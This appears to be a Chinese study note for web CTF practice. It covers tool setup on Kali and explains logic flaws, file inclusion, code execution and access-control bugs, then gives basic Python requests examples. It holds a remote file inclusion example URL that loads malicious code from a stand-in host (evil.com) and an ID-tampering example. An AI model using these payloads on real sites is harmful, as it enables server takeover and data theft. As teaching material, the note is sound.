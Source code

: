 **软件**
- BurpSuite, Kali 自带
- PHPStudy，[安装 phpstudy on Kali](https://blog.csdn.net/weixin_54358903/article/details/127698009)
- sqlmap, Kali 自带


[phpstudy on Kali 搭建小皮面板 配置sqli靶场](https://blog.csdn.net/qq_45301512/article/details/128931564)

按照这个教程可以基本配置成功，需要注意的是配置本地host文件的时候，域名的ip地址是本机
使用`ifconfig`查看本机ip地址


## 后端：业务逻辑
- 逻辑漏洞：验证不充分、想当然的写法、条件竞争、未发现的旁门左道……
    - 程序员的傲慢可能会让他认为`a==1&&a==2` 一定是 false 但……

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/158f919d-d6bc-4e6d-842d-7480f90ccecc/31d85cd7-3d28-45ce-a7ea-040e2b4003fd/Untitled.png)

- 任意文件读与任意代码执行
    - 例如一个Web应用允许用户上传头像，但未对上传的文件进行严格的类型和内容检查。攻击者上传一个包含恶意代码的文件，并通过文件包含漏洞执行该代码，从而控制服务器。
    - CTF竞赛中，能读服务器上 `/flag` 则读，否则就暗示我们需要 RCE (不然连 flag 在哪个文件都不知道).
- 文件包含：例如一个Web应用允许用户通过URL参数指定要包含的文件，如`index.php?page=about`。攻击者可以通过构造恶意URL，如`index.php?page=http://evil.com/malicious.php`，包含远程恶意文件，从而执行恶意代码。
- 越权：例如一个Web应用允许用户查看自己的订单信息，但未正确验证用户的身份。攻击者可以通过篡改URL参数，如`order.php?id=123`，查看其他用户的订单信息。
    - 永远不要相信用户的数据！前端代码也许永远不会访问其他用户的数据，但这不代表恶意攻击者就不会。

## 前端：可视化和操作逻辑


## request库的使用

```python title='发送 GET 请求'
import requests

response = requests.get('https://api.example.com/data')
print(response.status_code)
print(response.json())
```

```python title='发送 POST 请求'
import requests

data = {'key': 'value'}
response = requests.post('https://api.example.com/data', json=data)
print(response.status_code)
print(response.json())
```

```python
# 添加请求头
headers = {'Authorization': 'Bearer YOUR_ACCESS_TOKEN'}
response = requests.get('https://api.example.com/data', headers=headers)

# 处理查询参数
params = {'key1': 'value1', 'key2': 'value2'}
response = requests.get('https://api.example.com/data', params=params)
```
